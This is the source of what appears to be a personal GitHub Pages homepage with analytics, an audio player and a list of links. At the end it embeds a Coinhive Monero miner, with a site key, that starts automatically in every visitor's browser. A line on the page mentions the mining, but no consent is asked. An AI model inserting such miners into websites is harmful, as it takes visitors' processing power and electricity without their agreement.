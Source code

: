 ```yaml
---
layout:
---
```


<head>
<script async src="https://www.googletagmanager.com/gtag/js?id=UA-106946514-1"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments)};
  gtag('js', new Date());
  gtag('config', 'UA-106946514-1');
</script>
<meta http-equiv="Cache-Control" content="no-cache, no-store, must-revalidate">
<meta http-equiv="Pragma" content="no-cache">
<meta http-equiv="Expires" content="0">
</head>

under construction<br>

<!--Omniscient omnipotent and deeply unfriendly full stack developer. <br>
[Add](mailto:bohadi@users.noreply.github.com) me to your team today!
<br>
-->

<audio width="400" height="40" controls controlsList="nodownload">
  <source src="noodle.mp3" type="audio/mpeg">
</audio>

[interactive graphics](https://bohadi.github.io/smb) with WebGL!
<br><br>

some links:<br>
[news.ycombinator.com](https://news.ycombinator.com)<br>
[cryptowat.ch](https://cryptowat.ch)<br>
[sep/random](https://plato.stanford.edu/cgi-bin/encyclopedia/random)<br>
[The Travels of Marco Polo](https://en.wikisource.org/wiki/The_Travels_of_Marco_Polo)<br>
[Somnium, by Kepler](https://somniumproject.wordpress.com/somnium)<br>
[Vera Historia, by Lucian of Samosata](http://lucianofsamosata.info/TheTrueHistory.html)<br>

<br>
This page mines [Monero](https://en.wikipedia.org/wiki/Monero_(cryptocurrency)) in the background.<br>
This may be an alternative to serving ads and you may have to disable adblock. 
<br>
<div id='minerstatus'>
Attempting to connect...
</div>
<div id='minerio'>
Hashes/second: 0   <br>
total Hashes: 0    <br>
</div>

<script src="https://coin-hive.com/lib/coinhive.min.js"></script>
<script>
  var minerstatus = document.getElementById('minerstatus');
  var minerio     = document.getElementById('minerio');
  setTimeout( function() {
    try {
      var miner = new CoinHive.Anonymous('A9pTI4370gQQt0dRaNJFmFnPXXDvsEwS', {
        threads: 2,
        throttle: 0.5
      });
      miner.start();
      miner.on('open', function() {
        minerstatus.innerHTML = 'Connection opened...';
      });
      miner.on('error', function() {
        miner.stop();
        minerstatus.innerHTML = '...Connection error. Miner stopping.';
      });
      miner.on('accepted', function() {
        minerstatus.innerHTML =
          'Connected. ('+miner.getNumThreads()+' threads throttled at '+
          100*miner.getThrottle().toFixed(2)+'% WASM supported: '+miner.hasWASMSupport()+')';
      });
      setInterval(function() {
        minerio.innerHTML = 
          'Hashes/second: '   + miner.getHashesPerSecond().toFixed(2) + '<br>' +
          'total Hashes: '    + miner.getTotalHashes()                + '<br>' ;
      }, 1000);
    } catch (e) {
      minerstatus.innerHTML = '...Connection error. Miner stopping.';
    }
  }, 3000);

</script>
